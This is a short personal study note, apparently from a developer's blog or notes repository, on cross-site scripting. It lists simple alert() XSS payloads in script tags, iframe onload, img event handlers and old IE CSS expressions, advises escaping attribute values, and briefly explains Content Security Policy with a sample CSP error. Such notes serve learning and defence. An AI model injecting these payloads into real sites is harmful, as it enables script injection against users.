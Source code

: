 ```yaml
---
title: xss
date: 2018-10-04
---
```

# xss
属性值请escape

	\<script\>alert(\"感觉不错的样子！\")\</script\>
	<script>alert(/xss/)</script>

## todo
Refer: http://www.cnblogs.com/TankXiao/archive/2012/03/21/2337194.html

## iframe

	<iframe/onload=alert(10)>

## onerror onchange onload

	t = '<img src=1 onerror=alert(2)>'
	t = '<img src=1 onload=alert(2)>'
	t = '<img src=1 onchange=alert(2)>'

## style(for ie6)
expression

	<div style="width: expression(alert('xss'));">

Or javascript

	<div style="background-image: url(javascript:alert('xss'))">

And this??

	<div style="this-is-js-property: alert 'xss';">

# CSP, Content Security Policy
> http://www.ruanyifeng.com/blog/2016/09/csp.html
CSP 的实质就是白名单制度，开发者明确告诉客户端，哪些外部资源可以加载和执行

## 加载CSP js
如果没有设置正确的CSP，你可能会遇到:
> Refused to load the script 'http://localhost:8000/_frsh/js/main.js' because it violates the following Content Security Policy directive: "script-src 'nonce-49079xx'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback.
